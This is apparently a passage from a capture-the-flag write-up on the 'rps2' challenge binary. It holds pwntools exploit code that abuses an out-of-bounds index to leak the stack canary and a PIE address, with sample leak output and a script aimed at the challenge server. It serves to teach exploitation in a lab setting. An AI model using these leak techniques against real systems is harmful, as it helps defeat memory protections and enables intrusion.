 ```py 
        p.clean()
    except:
        continue

# find pie
# pie should be -ve offset since memory regions that refer to it are usually before the stack.
# pie leak will look like 0x55bdd2a00970
for i in range(-300, 0):
    try:
        time.sleep(0.1)
        p.sendline(str(i))
        p.recvuntil(b'You chose ')
        print(hex(u64(p.recvline().strip().ljust(8, b'\x00'))), i)
        p.clean()
    except:
        continue
```

```
0x3100000000000000 17
0x9184c574d1510000 18
0x0 19
...
0x0 -32
0x55bdd2a00970 -31
0x0 -30
```

Above are the leaked canary and PIE offsets, with the PIE being that of entry0, whose offset is 0x970. For the canary we
may read it wholesale, but for the PIE base we should subtract 0x970 from the leaked offset.

To win the game is quite trivial, just reverse the check done in the program to always be able to win.

```py 
from pwn import *

elf = context.binary = ELF('./rps2')
rop = ROP(elf)
#p = process()
#input()
p = remote('alpha.8059blank.ml', 3000)

moves = [ "Rock", "Gun", "Lightnig", "Devil", "Dragon", "Water", "Air", "Paper", "Sponge", "Wolf", "Tree", "Human",\
"Snake", "Scissors", "Fire"]

def i_win():
    p.recvuntil(b'I choose ')
    bot = moves.index(p.recvline().strip().decode())
    me = str((bot + 2) % 15 + 1).encode()
    return me

# How to obtain this index? 
# run fuzzer.py, look for the first value OUTSIDE of ur array that ends with 00. these usually indicate canaries which
# always end with 00. Note that it should be very close to the end of your array.
p.clean()
p.sendline("18")
p.recvuntil(b'You chose ')
canary = u64(p.recvline().strip().rjust(8, b'\x00'))
print(hex(canary))


```